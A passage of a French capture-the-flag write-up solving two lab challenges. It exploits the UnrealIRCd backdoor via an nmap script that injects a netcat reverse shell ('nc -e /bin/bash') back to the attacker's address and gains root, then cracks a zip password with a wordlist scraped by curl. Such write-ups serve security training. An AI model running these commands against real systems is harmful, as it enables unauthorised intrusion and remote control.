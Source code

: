 Ensuite, on lance l'exploitation.

```txt
┌──(kali㉿kali)-[~]
└─$ nmap -d -p6667 --script=irc-unrealircd-backdoor.nse --script-args=irc-unrealircd-backdoor.command='nc -e /bin/bash 192.168.56.101 8080' 192.168.56.132
```

On récupère le shell, on vérifie notre environnement et on récupère le flag.

```txt
listening on [any] 8080 ...
192.168.56.132: inverse host lookup failed: Host name lookup failure
connect to [192.168.56.101] from (UNKNOWN) [192.168.56.132] 41681
pwd
/etc/unreal
id
uid=0(root) gid=0(root)
find / -type f -name flag.txt
/var/tmp/flag.txt
cat /var/tmp/flag.txt
asr2020{C3tt3_M@chine_Es1_mult1_p0wnable!!!}
```

### Trop facile

On récupère tous les mots de la page web.

```txt
┌──(kali㉿kali)-[~/lab]
└─$ curl http://192.168.56.133/ | grep -oE '\w+' > dict.txt
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  106k  100  106k    0     0  34.7M      0 --:--:-- --:--:-- --:--:-- 52.0M
```

On essaie de trouver le mot de passe du fichier zip à l'aide du dictionnaire.

```txt
┌──(kali㉿kali)-[~/lab]
└─$ fcrackzip -D -u -p dict.txt flag.zip                   


PASSWORD FOUND!!!!: pw == socioculturelle
```

Ainsi, on peut décompresser le fichier zip et lire son contenu.

```txt
┌──(kali㉿kali)-[~/lab]
└─$ unzip flag.zip
Archive:  flag.zip
[flag.zip] flag.txt password: 
  inflating: flag.txt  

┌──(kali㉿kali)-[~/lab]
└─$ cat flag.txt 
asr2020{hein_l3_M0t_de_Passe_Est_F@cile} 
```

